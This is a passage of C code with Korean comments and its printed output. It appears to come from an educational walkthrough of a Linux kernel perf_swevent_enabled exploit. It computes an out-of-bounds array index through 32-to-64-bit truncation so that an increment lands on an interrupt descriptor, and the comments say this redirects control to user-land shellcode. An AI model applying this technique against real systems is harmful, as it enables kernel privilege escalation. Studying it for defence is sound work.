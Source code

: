 ```
    for (i = 0; i<SIZE/4;i++) {
        uint32_t *tmp = map+i;
        if (*tmp && *(tmp+1))
            break;
    }
    printf("scanned i: %x\n",i);

    i = ((uint64_t)peek - 0x380000000) / 4;
    printf("caculated i: %x\n", i);

    printf("A: %p\n", &perf_swevent_enabled[0xffffffff*2]);
    printf("B: %p\n", (void*)((uint64_t)BASE + (uint64_t)i*4));
    printf("C: %p\n", (int*)perf_swevent_enabled + 0xffffffff*2);

    // perf_swevent_enabled 를 i 를 가지고 구해낼 수 있다.
    b = (uint64_t)BASE + (uint64_t)i*4;
    calc_perf = (int*)(b-(uint64_t)0xffffffff*4*2);
    printf("calc_perf: %p\n", calc_perf);
    printf("perf_swevent_enabled: %p\n", perf_swevent_enabled);

    // perf_swevent_enabled 의 주소를 구했으면,
    // target_addr 로 튈 수 있는, 어레이 index 를 계산한다.
    a = (uint64_t)calc_perf&0xffffffff;
    b = (uint64_t)target_addr&0xffffffff;
    printf("X: %lx\n", a);
    printf("Y: %lx\n", b);
    printf("Z: %ld\n", a-b);
    printf("-Z/4: %ld\n", (int64_t)(b-a)/4);
    config = (b-a)/4;
#if 0
    // exploit 의 공식. 하지만 안쓴다.
    config = 
        (uint32_t) 
        (-i +16 +((((uint64_t)idt_addr&0xffffffff)-0x80000000) / 4));
#endif
    idx32 = config; // 원래 code 의 실수를 시뮬레이션한다.
    idx64 = idx32;
    mem = &perf_swevent_enabled[idx64];
    printf("calculated mem: %p\n", mem);
    printf("target_addr: %p\n", target_addr);
    // kernel 에서는 이제 atomic_inc() 가 들어간다.
    // Interrupt descriptor 의 상위 0xffffffff -> 0x00000000 으로 변한다.
    // Interrupt vector 의 어드레스가 user-land 로 바뀐다.
    // user-land 에 깔아둔 NOP slide + shellcode 로 튈 수 있다.
    // atomic_inc(perf_swevent_enabled[idx64]);
}
$ ./calc2
atomic_dec(): 0x381ef715c
atomic_dec(): 0x381ef7158
scanned i: 7bdc56
calculated i: 7bdc56
A: 0x381ef7158
B: 0x381ef7158
C: 0x381ef7158
calc_perf: 0xfffffffb81ef7160
perf_swevent_enabled: 0xfffffffb81ef7160
X: 81ef7160
Y: 81df8048
-Z/4: -261190
config: -261190
idx32: -261190
idx64: -261190
calculated mem: 0xffffffff81df8048 <--- index overflow 로 맞춰냈다.
```